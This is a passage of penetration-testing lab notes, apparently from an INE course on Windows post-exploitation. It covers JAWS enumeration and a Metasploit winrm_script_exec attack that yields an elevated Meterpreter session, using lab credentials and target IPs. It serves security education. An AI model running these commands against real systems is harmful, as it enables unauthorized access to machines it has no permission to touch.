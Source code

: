 ```bash
TaskName:      \Mozilla\Firefox Default Browser Agent E7CF176E110C211B
Next Run Time: 4/28/2023 9:05:00 AM
Status:        Ready
Logon Mode:    Interactive only

[...]
```

## Automating Local Enum

> 🔬 INE LAB
>
> - Target IP: `10.2.16.155`
> - Credentials: `administrator`:`tinkerbell`
> - Automation Tools:
>   - [JAWS - Just Another Windows (Enum) Script](https://github.com/411Hall/JAWS)
>   - Metasploit Framework

**`JAWS`** - PowerShell 2.0 script designed to help penetration testers quickly *identify potential privilege escalation vectors on Windows systems.*

```powershell
PS C:\temp> .\jaws-enum.ps1 -OutputFileName Jaws-Enum.txt
```

### Enumeration & Exploitation

```bash
# Target WinRM
nmap -sV -p 5985 10.2.17.152
	5985/tcp open  http  Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

```bash
service postgresql start && msfconsole -q
search winrm
use exploit/windows/winrm/winrm_script_exec
setg RHOSTS 10.2.17.152
setg RHOST 10.2.17.152
set USERNAME administrator
set PASSWORD tinkerbell
set FORCE_VBS true
run
```

![Elevated Meterpreter session](5-post-exploitassets/image-20230427195211889.png)

